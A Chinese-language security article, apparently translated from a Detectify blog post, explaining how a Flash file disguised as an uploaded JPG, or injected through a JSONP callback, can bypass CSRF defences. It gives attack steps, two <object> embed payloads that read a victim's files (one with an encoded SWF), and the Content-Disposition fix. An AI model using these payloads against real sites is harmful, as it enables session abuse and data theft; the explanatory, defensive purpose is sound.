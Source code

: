 # 上传文件的陷阱

0x00 背景
-------

* * *

现在很多网站都允许用户上传文件，但他们都没意识到让用户（或攻击者）上传文件（甚至合法文件）的陷阱。

什么是合法文件？

通常，判断文件是否合法会透过两个参数：文件后缀（File extension）及Content-Type。

例如，网站会确保后缀是jpg及Content-Type是image/jpeg以防止恶意文件，对不？

但一些像Flash的插件程序并不关心后缀及Content-type。假如一个文件被标签嵌入，它会像Flash一样执行，只要它的内容像个Flash文件。

但等等，Flash不是应该只在同域下被嵌入才会执行？亦对亦错。假如一个Flash文件（或以图像包装的Flash文件）在victim.com上传然后于attacker.com下嵌入，它只能在attacker.com下执行JavaScript。但是，假如该Flash文件发出请求，那么它可以读取到victim.com下的文件。

这说明了若不检查文件内容而直接上传，攻击者可以绕过网站的CSRF防御。

0x01 攻击
-------

* * *

基于上面我们可以想像一种攻击场境：

```
1. 攻击者建立一个恶意Flash(SWF)文件  
2. 攻击者更改文件副档名为JPG  
3. 攻击者上传档案到victim.com  
4. 攻击者在attacker.com以标签及application/x-shockwave-flash类型嵌入该文件  
5. 受害者浏览attacker.com，并以SWF格式载入该文件  
6. 攻击者现在可以透过该SWF并以受害者的session向victim.com发出及接收任意请求  
7. 攻击者向victim.com发出请求后取得受害者的CSRF token  

```

payload会像这样

```
<object style="height:1px;width:1px;" data="http://victim.com/user/2292/profilepicture.jpg" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="c=read&u=http://victim.com/secret_file.txt"></object>   

```

0x02 修补
-------

* * *

好消息是有一个相对简单的方法防止该Flash的行为。 Flash若看到文件返回下面的Content-Disposition header就不会执行：

```
Content-Disposition: attachment; filename="image.jpg"  

```

所以若允许上传或输出任意数据，网站应该总是检查内容是否合法而且尽可能返回`Content-Disposition header`。

0x03 其他用途
---------

* * *

实际上，该攻击不只限制于文件上传。该攻击只要求攻击者能够控制域名下的数据（不论Content-Type），因此还有其他实施攻击的方法。

其中一种是利用JSONP接口。通常，攻击者可以透过更改callback参数控制JSONP接口的输出。然而，攻击者可以把整个Flash文件的内容作为callback参数，而达到与上载文件无异的攻击。 Payload会像这样：

```
<object style="height:1px;width:1px;" data="http://victim.com/user/jsonp?callback=CWS%07%0E000x%9C%3D%8D1N%C3%40%10E%DF%AE%8D%BDI%08%29%D3%40%1D%A0%A2%05%09%11%89HiP%22%05D%8BF%8E%0BG%26%1B%D9%8E%117%A0%A2%DC%82%8A%1Br%04X%3B%21S%8C%FE%CC%9B%F9%FF%AA%CB7Jq%AF%7F%ED%F2%2E%F8%01%3E%9E%18p%C9c%9Al%8B%ACzG%F2%DC%BEM%EC%ABdkj%1E%AC%2C%9F%A5%28%B1%EB%89T%C2Jj%29%93%22%DBT7%24%9C%8FH%CBD6%29%A3%0Bx%29%AC%AD%D8%92%FB%1F%5C%07C%AC%7C%80Q%A7Nc%F4b%E8%FA%98%20b%5F%26%1C%9F5%20h%F1%D1g%0F%14%C1%0A%5Ds%8D%8B0Q%A8L%3C%9B6%D4L%BD%5F%A8w%7E%9D%5B%17%F3%2F%5B%DCm%7B%EF%CB%EF%E6%8D%3An%2D%FB%B3%C3%DD%2E%E3d1d%EC%C7%3F6%CD0%09" type="application/x-shockwave-flash" allowscriptaccess="always" flashvars="c=alert&u=http://victim.com/secret_file.txt"></object>

```

from: http://blog.detectify.com/post/86298380233/the-pitfalls-of-allowing-file-uploads-on-your-website